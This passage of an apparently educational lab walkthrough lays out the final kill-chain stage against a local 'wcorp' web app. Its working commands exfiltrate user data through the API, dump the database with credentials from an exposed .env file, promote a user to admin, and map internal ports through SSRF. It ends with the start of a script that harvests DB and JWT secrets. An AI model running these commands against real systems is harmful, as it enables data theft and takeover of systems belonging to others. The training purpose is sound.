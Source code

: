### 7. Actions on Objectives
**Objective:** Achieve the ultimate goal of the attack

**Objectives Achieved:**

**A. Complete Data Exfiltration:**
```bash
# Extract all user data
curl -H "Authorization: Bearer <admin-token>" \
  http://localhost:3000/wcorp/api/admin/users > users.json

# Extract sensitive information
for id in {1..10}; do
  curl -H "Authorization: Bearer <token>" \
    http://localhost:3000/wcorp/api/user/sensitive/$id >> sensitive_data.json
done
```

**B. Database Compromise:**
```bash
# Using credentials from .env exposure
mysqldump -h localhost -u wcorp_user -p<password> wcorp_db > database_dump.sql

# Extract specific tables
mysql -h localhost -u wcorp_user -p<password> wcorp_db \
  -e "SELECT * FROM users;" > all_users.csv
```

**C. Privilege Escalation:**
```bash
# Modify own user role to admin
curl -X POST http://localhost:3000/wcorp/api/user/update \
  -H "Authorization: Bearer <token>" \
  -H "Content-Type: application/json" \
  -d '{"id":5,"role":"admin"}'
```

**D. System Reconnaissance:**
```bash
# Use SSRF to map internal network
for port in 22 80 443 3306 5432 6379 8080; do
  curl "http://localhost:3000/wcorp/api/fetch-url?url=http://localhost:$port"
done
```

## Complete Attack Chain Example

### Scenario: External Attacker to Full System Compromise

```bash
#!/bin/bash
# Complete attack automation script

TARGET="http://localhost:3000"

echo "[*] Stage 1: Reconnaissance"
curl -s $TARGET/robots.txt
curl -s $TARGET/.env > exposed_env.json
curl -s $TARGET/package.json > package.json

echo "[*] Stage 2: Weaponization"
# Prepare payloads based on reconnaissance
DB_PASSWORD=$(grep DB_PASSWORD exposed_env.json | cut -d'"' -f4)
JWT_SECRET=$(grep JWT_SECRET exposed_env.json | cut -d'"' -f4)

echo "[*] Stage 3: Delivery & Exploitation"
```